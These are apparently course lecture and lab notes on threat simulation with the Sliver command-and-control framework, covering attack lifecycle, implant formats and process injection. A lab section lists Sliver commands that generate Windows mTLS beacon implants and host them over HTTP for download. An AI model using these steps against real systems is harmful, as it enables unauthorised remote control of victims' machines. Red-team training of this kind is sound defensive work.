

# Threat Simulation: Command and Control

## Lecture Notes: Threat Simulation Using Sliver C2

### Threat Simulation

* a proactive cybersecurity strategy designed to mimic real-world attack behaviors within a controlled environment
* the purpose of threat simulation is to provide a safe, realistic scenario where defenders can observe and practice responses to simulated cyber threats without the risks associated with actual attacks
* involves simulating/emulating tactics, techniques, and procedures (TTPs) commonly used by threat actors to test the effectiveness of an organization's defenses, detection capabilities, and incident response workflows

#### Why Use Threat Simulations

* helps security teams understand how specific threat actors operate and how various attack vectors might exploit vulnerabilities within their environment
* through threat simulation exercises, cybersecurity professionals can refine their skills in detecting, mitigating, and recovering from cyber incidents, strengthening the overall resilience of their organization

### Common Threats

* execution
  * the adversary is trying to run malicious code
* ransomware
  * adversaries may encrypt data on target systems in a network to interrupt availability to system and network resources
* persistence
  * the adversary is trying to maintain their foothold
* lateral movement
  * the adversary is trying to move through your environment
* remote access
  * using legitimate desktop support and remote access software to establish an interactive command and control channel to target systems within networks
* Powershell
  * adversaries may abuse Powershell commands and scripts for execution
* user behavior
  * normal user activity and behavior
* C2
  * the adversary is trying to communicate with compromised systems and control them

### Threat Attack Life Cycle

* initial recon
  * identify exploitable vulnerabilities
* initial compromise
  * gain initial access into target
* establish foothold
  * strengthen position within target
* escalate privileges
  * steal valid user credentials
* internal recon -> lateral movement -> maintain presence -> escalate privileges\\
  * identify target data
* complete mission
  * package and steal target data

### Why Use a C2

* designed to provide the capability to perform post-exploitation tasks, maintain access to systems, and work collaboratively with teams to achieve organization objectives
* management and remote admin
* persistence
* recon and lateral movement
* evasion
* scalability
* data exfil

### Sliver C2

* a powerful C2 framework designed to provide advanced capabilities for covertly managing and controlling remote systems
* uses different secure and reliable communication channels: mutual TLS, HTTP(S), DNS, or Wireguard
* functionality: execute commands, gather information, and perform various post-exploitation activities
* has a user-friendly console interface and support for multiple operating systems and multiple CPU architectures

#### Implants and Injections

* Sliver is written in GoLang, so its implants are cross-platform compatible
* operators can generate implants in several formats:
  * shellcode
    * Assembly
    * often used for injection into applications
  * executable
  * shared library/DLL
    * useful if you know that an application is loading a library- you can replace that library or a missing library with your malicious implant
    * can see libraries loaded (and failed to load) by an EXE in ProcMon
  * service
* Sliver utilizes process injection as a core part of many default commands or capabilities, such as;
  * migrate
    * Windows has different desktops (security boundaries), and starting tools like a keylogger as a child of another service will limit you to the desktop of that service
    * explorer.exe has access to all
  * spawndll
  * sideload
  * msf-inject
  * execute-assembly
  * getsystem
  * Beacon Object Files (BOFs)
  * other third-party tooling

## Lab Notes: Sliver C2

### Kali (Sliver) Configuration

* snapshot
* set network adapter to LAN
* configure network settings

<figure><figcaption></figcaption></figure>

```
sudo adduser shapiro
sudo usermod -aG sudo shapiro
sudo hostnamectl set-hostname kali01-shapiro
sudo apt install sliver
sliver-server
[server] sliver > multiplayer
[server] sliver >  jobs
[server] sliver > new-operator -n shapiro -l 10.0.5.20
sliver-client import /home/shapiro/shapiro_10.0.5.20.cfg
sliver-client
sliver > sessions
sliver > profiles new --mtls 10.0.5.20 --format ex --os windows --arch amd64 windows-session
sliver > profiles new beacom --mtls 10.0.5.20  --format exe --seconds 5 --jitter 3 --os windows --arch amd64 windows-beacon
sliver > profiles generate --save ~/Public/beacon1.exe windows-beacon
cd ~/Public
file imp1.exe beacon1.exe
sudo python3 -m http.server 80
sudo mkdir /var/www/html/files
sudo cp ~/Public/*.exe /var/www/html/files/
ls -lha /var/www/html/files/
sliver > sessions
[server] sliver > mtls
```
